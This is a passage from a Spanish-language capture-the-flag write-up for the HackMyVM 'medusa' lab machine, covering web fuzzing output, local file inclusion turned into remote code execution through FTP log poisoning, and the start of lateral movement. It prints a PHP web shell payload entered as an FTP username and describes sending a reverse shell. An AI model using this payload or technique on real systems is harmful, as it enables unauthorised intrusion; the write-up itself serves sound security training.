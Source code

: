 ```bash
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response words: 1
________________________________________________

view                    [Status: 200, Size: 190, Words: 19, Lines: 8, Duration: 19ms]
:: Progress: [4723/4723] :: Job [1/1] :: 1503 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
```

![](@assets/HackMyVM/medusa/lfi.png)

### LFI2RCE via Log Poisoning e intrusión

Explotando el LFI podemos intentar acceder logs internos del sistema.

Como antes habíamos visto que tenía un servicio FTP corriendo podemos intentar inyectar código PHP en ese log.

![](@assets/HackMyVM/medusa/ftp.png)

Veo que se ve reflejado el nombre que introducí al logearme así que intento inyectar el código por ahí.

```bash
❯ ftp 192.168.134.131
Connected to 192.168.134.131.
220 (vsFTPd 3.0.3)
Name (192.168.134.131:ziox): <?php system ($_GET ['cmd'])?>
331 Please specify the password.
Password:
530 Login incorrect.
ftp: Login failed.
```

Aunque no nos hayamos logueado correctamente, el intento se almacena en el log y al acceder, la página interpreta el PHP.

![](@assets/HackMyVM/medusa/rce.png)

Tenemos RCE, así que nos ponemos en escucha y mandamos una reverse shell.

![](@assets/HackMyVM/medusa/revshell.png)

# Movimiento lateral

Estando dentro como el usuario **www-data** vemos en la raíz del sistema un directorio `...`.

![](@assets/HackMyVM/medusa/unusual.png)

## Crackeando el zip
